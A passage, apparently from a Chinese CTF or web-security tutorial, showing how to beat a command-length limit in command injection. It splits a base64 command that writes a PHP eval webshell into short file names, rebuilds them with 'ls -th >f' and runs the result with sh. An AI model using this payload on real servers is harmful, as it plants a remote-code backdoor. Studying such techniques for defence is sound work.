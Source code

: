 这里我们看到其中出现了2个空格，这里我们需要把其中一个空格用${IFS}替换

否则新的空格文件会替换旧的空格文件导致，攻击payload失效,所以变成下面这样的

```bash
echo${IFS}PD9waHAgZXZhbCgkX0dFVFsxXSk7|base64 -d>1.php
```

那么我们只需要将上面的代码拆分倒序输入到主机即可

```bash
>hp
>p\\
>1.\\
>\>\\
>-d\\
>\ \\
>64\\
>se\\
>ba\\
>\|\\
>7\\
>Sk\\
>X\\
>x\\
>Fs\\
>FV\\
>d\\
>X0\\
>k\\
>g\\
>bC\\
>h\\
>XZ\\
>gZ\\
>A\\
>aH\\
>w\\
>D9\\
>P\\
>S}\\
>IF\\
>{\\
>\$\\
>o\\
>ch\\
>e\\
```

然后我们需要让sh先执行0文件（ls -th >f）就会得到f文件

最后再让sh去执行f文件即可得到1.php

最终payload如下
